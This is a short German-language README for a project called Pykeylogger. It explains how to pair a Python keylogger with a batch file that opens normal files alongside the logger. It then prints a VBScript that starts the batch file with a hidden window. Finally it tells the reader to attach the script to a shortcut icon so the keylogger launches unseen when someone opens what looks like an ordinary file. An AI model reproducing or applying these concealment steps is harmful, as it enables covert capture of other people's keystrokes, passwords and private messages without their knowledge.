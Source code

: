 # Pykeylogger
Pykeylogger in kombination mit cmd file zum gleichzeitigen öffnen von files und des keyloggers


change  file path ("c:/keystrokes/") to your prefered path to save the keystroke text file  
change the two paths in
programm als .bat datei abspeichern

danach vbs program integrieren damit die bat datei unsichtbar gestartet werden kann 

Set WshShell = CreateObject("WScript.Shell") 
WshShell.Run chr(34) & "C:\(bat datei zum öffnen der zwei programme)batchconnect.bat" & Chr(34), 0
Set WshShell = Nothing

c pfad durch bat datei pfad ersetzen und als .vbs abspeichern

dann .vbs datei mit icon verbinden unter eigenschaften verknüpfung und dann vbs datei pfad in ziel einspeichern
